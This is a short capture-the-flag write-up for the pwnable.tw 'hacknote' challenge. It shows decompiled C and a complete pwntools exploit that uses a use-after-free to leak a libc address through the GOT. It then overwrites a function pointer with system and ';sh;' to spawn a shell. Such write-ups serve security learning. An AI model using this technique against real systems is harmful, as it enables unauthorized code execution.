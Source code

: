 ```c 
  printf("Index :");
  read(0, &buf, 4u);
  index = atoi(&buf);
  if ( index < 0 || index >= dword_804A04C )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[index] )
    (*(void (__cdecl **)(void *))ptr[index])(ptr[index]);
  return __readgsdword(0x14u) ^ v3;
}
```

exploit

```python=
from pwn import *
# context.log_level = 'debug'

r = remote("chall.pwnable.tw", 10102)
libc = ELF("libc_32.so.6")
elf = ELF("./hacknote")

def add(size, content):
    r.recvuntil("Your choice :")
    r.sendline('1')
    r.recvuntil("Note size :")
    r.sendline(str(size))
    r.recvuntil("Content :")
    r.send(content)

def deln(choice):
    r.recvuntil("Your choice :")
    r.sendline('2')
    r.recvuntil("Index :")
    r.sendline(str(choice))

def printn(choice):
    r.recvuntil("Your choice :")
    r.sendline('3')
    r.recvuntil("Index :")
    r.sendline(str(choice))

add(16, 'a')
add(16, 'a')


deln(0)
deln(1)

nn_print_note=0x0804862B
add(8, p32(nn_print_note) + p32(elf.got['puts']))
printn(0)

libc_address = u32(r.recv(4)) - libc.sym['puts']
print("libc_address",hex(libc_address))
system = libc_address + libc.sym["system"]

deln(2)

add(0x8, p32(system) + b';sh;')

printn(0)
```